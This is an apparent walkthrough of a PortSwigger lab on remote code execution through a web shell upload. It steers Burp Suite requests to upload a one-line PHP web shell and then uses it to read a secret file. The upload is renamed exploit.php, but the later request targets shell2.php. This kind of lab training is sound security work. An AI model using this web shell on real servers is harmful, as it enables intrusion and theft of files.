

[Source](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)
## Task
This lab contains a vulnerable image upload function. It does not perform any validation on uploaded files before saving them to the server's `filesystem`.
To solve the task:
1. Download a basic `PHP` web shell.
2. Use it to extract the contents of the `/home/carlos/secret` file.
3. Submit the resulting secret using the button in the lab banner.

We can log in to the account with the credentials:

**Login:** `wiener`
**Password:** `peter`
## Solution
We go to the site and log in to the account. We see that it is possible to upload an image.


Load any image. In `Burp Suite`, go to `HTTP history`, click on filters and check `Images`. In the request history, find the `GET` request with our image. Send it to `Repeater`.


Also find the `POST` request, which is responsible for loading the image. Send it to `Repeater` as well. Remove the image metadata from it and insert the PHP code instead:
```PHP
<?php echo system($_GET['command']); ?>
```
Also change `filename="image.png"` to `filename="exploit.php"`


Send the request and go to the request that loads the image onto the page. In the first line of the request add:
```URL
/files/avatars/shell2.php?command=cat+/home/carlos/secret
```


After sending the request we see the contents of the file `/home/carlos/secret`:
```Secret
QjV0vJ0drEPMBtpOoiafuLNUV8dFxrCD
```


